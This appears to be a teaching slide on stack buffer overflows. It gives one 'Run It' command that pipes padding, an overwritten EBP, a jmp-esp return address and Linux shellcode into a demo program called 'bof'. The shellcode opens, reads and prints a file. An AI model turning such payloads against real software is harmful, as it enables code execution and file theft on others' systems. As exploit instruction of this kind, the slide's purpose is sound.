

# Run It
echo -en "AAAAAAAAAAAAAAAABBBB\x76\x84\x04\x08\xB8\x05\x00\x00\x00\xBB\x3E\xA0\x04\x08\xB9\x00\x00\x00\x00\xBA\x00\x00\x00\x00\xCD\x80\x89\xC3\xB8\x03\x00\x00\x00\xB9\x3E\xA0\x04\x08\xBA\x1E\x00\x00\x00\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xB9\x3E\xA0\x04\x08\xBA\x1E\x00\x00\x00\xCD\x80\xB8\x01\x00\x00\x00\xBB\x00\x00\x00\x00\xCD\x80" | bof
Buffer
EBP
Return Address (jmp esp)
Shellcode